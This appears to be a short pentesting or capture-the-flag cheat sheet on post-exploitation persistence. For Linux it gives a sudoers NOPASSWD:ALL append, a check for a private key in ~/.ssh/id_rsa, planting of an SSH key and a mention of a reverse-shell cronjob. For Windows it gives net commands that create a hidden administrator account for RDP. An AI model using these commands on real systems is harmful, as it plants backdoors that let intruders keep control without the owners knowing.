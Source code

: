 # 4_persistence

## Linux

### Root

- Once obtained root, elevate permissions low level user using

```shell
echo "username ALL=NOPASSWD:ALL" >> /etc/sudoers
```

### SSH

- Check for the existence of a private key in `~/.ssh/id_rsa`.

- Generate your own SSH key using this [tutorial](https://docs.github.com/en/authentication/connecting-to-github-with-ssh/generating-a-new-ssh-key-and-adding-it-to-the-ssh-agent?platform=linux)

```shell
ssh-keygen -t ed25519 -C "your_email@example.com"
```

- Upload public key of SSH key pair to `authorized_keys_file`.

### Cronjob

- Set up cronjob that establishes reverse shell
 
## Windows

### RDP

- Set up RDP accesss using

```shell
net user a3cipher a3cipher /add
net localgroup Administrators a3cipher /add
net localgroup "Remote Management Users" a3cipher /add
```